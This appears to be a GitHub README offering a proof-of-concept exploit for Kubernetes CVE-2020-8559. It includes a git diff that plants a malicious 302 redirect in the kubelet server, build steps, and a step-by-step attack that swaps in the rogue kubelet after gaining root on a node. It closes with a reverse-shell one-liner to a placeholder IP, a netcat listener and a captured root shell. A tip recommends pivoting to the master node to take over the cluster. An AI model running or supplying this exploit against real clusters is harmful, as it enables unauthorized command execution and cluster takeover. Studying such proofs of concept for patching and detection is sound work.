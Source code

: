 # Kubernetes CVE-2020-8559 Proof of Concept PoC Exploit

__This is for demonstration purposes only. Only for use on systems you are authorized to preform administrative actions on and are authorized to exploit CVE-2020-8559 on__

This is a PoC for CVE-2020-8559 This vulnerability allows an attacker who has gotten `root` on a Node to execute commands on any other Container in the cluster allowing the attacker to take over the Kubernetes Master Node.

This vulnerability is due to the fact that the Kubernetes API Server and kubectl command will follow HTTP Redirects combined with the fact that the Kubernetes API just puts all of the components of an API request into the URL i.e. Node name, Pod name, Container name, and even the Command. Therefor, if the Kubelet process responds to `/exec`, `/attach`, `/portforward`, or any `resource: proxy` action with a HTTP 302 Redirect with a Location header which says to execute a different command on a different Node in a different Container the Kubernetes API Server or `kubectl` command will happily make a new request for whatever is in the Location header.

## Kubernetes Repo with my PoC Code

You can download my forked version of Kubernetes and switch to my branch to build the exploit `kubelet` binary.  
This branch is based on the `v1.15.9` tag.  

```
git clone -b CVE-2020-8559 --single-branch git@github.com:tdwyer/kubernetes.git
```

## Git diff

```
diff --git a/pkg/kubelet/server/server.go b/pkg/kubelet/server/server.go
index c1f1975fe43..8459802755e 100644
--- a/pkg/kubelet/server/server.go
+++ b/pkg/kubelet/server/server.go
@@ -867,6 +867,28 @@ func (s *Server) ServeHTTP(w http.ResponseWriter, req *http.Request) {

        method, path := req.Method, trimURLPath(req.URL.Path)

+       ////
+       ////
+       // If path is vulnerable to CVE-2020-8559 send 302 redirect with malicious Location header
+       ////
+       ////
+       protocol := "https"
+       // If attacking requests from admins using the kubectl command
+       //     host == hostname of the Kubernetes API server obtained from `kubectl -v 8 get pods`
+       // If attacing the Kubernetes API Server
+       //     host == hostname of the Node the Victim container is running on
+       host := "internal-api-123456-123456789.us-west-2.elb.amazonaws.com"
+       namespace := "kube-system"
+       pod := "kcd-7cfbb97c64-p4kf2"
+       container := "kcd"
+       command := "hostname"
+       if strings.Contains(req.URL.Path, "/exec") || strings.Contains(req.URL.Path, "/attach") || strings.Contains(req.URL.Path, "/portforward") {
+               fmt.Println("--------------------------------------------------------------")
+               fmt.Println("Sending Redirect")
+               fmt.Println("--------------------------------------------------------------")
+               http.Redirect(w, req, protocol+"://"+host+"/api/v1/namespaces/"+namespace+"/pods/"+pod+"/exec?command="+command+"&container="+container+"&stderr=true&stdout=true", 302)
+       }
+
        longRunning := strconv.FormatBool(isLongRunningRequest(path))

        servermetrics.HTTPRequests.WithLabelValues(method, path, serverType, longRunning).Inc()
```

## Configure

This PoC will just send 302 HTTP Redirect with a hard coded Location header, so you will need to edit `kubernetes/pkg/kubelet/server/server.go` and update `host`, `namespace`, `pod`, `container`, and `command`

__ProTip:__ List all of the Pods in the cluster. Then, configure this to execute commands on a Pod running on the Kubernetes Master Node in order start a reverse shell back to you in order to take over the cluster

## Build

After Configuring the attack, build a rogue `kubelet` binary

```
cd ~/go/src/k8s.io/kubernetes
GO111MODULE=on go mod download
cd ~/go/src/k8s.io/kubernetes/cmd/kubelet
go build
```

## Attack

1. Get root on a Node
2. Copy the rogue `kubelet` binary to the Node
3. Stop the `kubelet` process and over-write the binary with the rogue binary  
Find the PID of the `kubelet` process  
`ps aux |grep kubelet`  
Kill the `kubelet` process and copy the rogue binary into place  
`sudo kill $PID ; sudo cp kubelet /usr/local/bin/kubelet`  
4. Kill the `kubelet` process again so that it will re-start with the rogue binary  
Find the PID of the `kubelet` process  
`ps aux |grep kubelet`  
Kill the `kubelet` process  
`sudo kill $PID`  
5. If configured to attack an admin using the `kubectl` command on their local workstation, This command should return the hostname of the Victim Container instead of the container it should have been executed on
```
[0038][tdwyer@tdwyer-nuc:~/CVE-2020-8559]$ kubectl exec attacker-5cf89b94db-xdbfm -- date
kcd-7cfbb97c64-p4kf2
```


You can also start a reverse shell back you from any Container with
1. Start netcat listening on your workstation  
`nc -lv 4444`  
2. Use this command instead however you'll need to encode this. I'll update the exact way after I figure it out.  
`/bin/sh -i >& /dev/tcp/1.2.3.4/4444 0>&1`  

Success :D  
```
[1617][tdwyer@tdwyer-nuc:~]$ nc -lvk 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from 9.8.7.6.in-addr.arpa 46828 received!
bash-5.0#
```

